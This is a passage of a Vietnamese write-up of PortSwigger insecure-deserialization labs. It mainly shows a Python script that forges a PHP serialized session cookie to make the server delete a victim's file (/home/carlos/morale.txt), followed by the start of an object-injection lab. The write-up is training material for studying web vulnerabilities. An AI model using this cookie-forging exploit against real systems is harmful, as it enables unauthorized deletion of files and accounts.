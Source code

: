 ```python=
    data = data_login,
)

# lấy data từ cookie và xử lí
data_cookies = 'O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"sqjois2i0db7c57ixs64wyh0kq797nm4";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}'
encode_base64 = base64.b64encode(data_cookies.encode('utf-8')).decode('utf-8')
encode_url = quote(encode_base64)
solve = encode_url

cookies = {
    'session': solve,
}

# dùng cookie đã sử lý để xóa carlos
response = requests.post(
    url + '/my-account/delete',
    cookies=cookies,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/BJe3A6PY6.png)

mục đích của chúng ta đã hoàn thành khi trang web chuyển hướng chúng ta đến xóa carlos và chúng ta cũng đã giải quyết được bài lab

![image](https://hackmd.io/_uploads/B1_thTwtp.png)

lỗi của bài này là không xác thực các đường dẫn thư mục thuộc về người đó trước khi xóa tài khoản

## 4. Lab: Arbitrary object injection in PHP

link: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php

### Đề bài

![image](https://hackmd.io/_uploads/Bk-f-WOKa.png)

### Phân tích

<ul>
    <li>bài gợi ý chúng ta dùng <b>~</b> để đọc source code của file backup và tiêm một đối tượng vào chương trình qua lỗ hổng  Insecure deserialization để xóa file morale của người dùng Carlos</li>
    <li>tương tự những bài trước mình bắt được gói tin chứa cookie có thể thay đổi được</li>
    <img src ="https://hackmd.io/_uploads/SkHb4WdYT.png">
</ul>
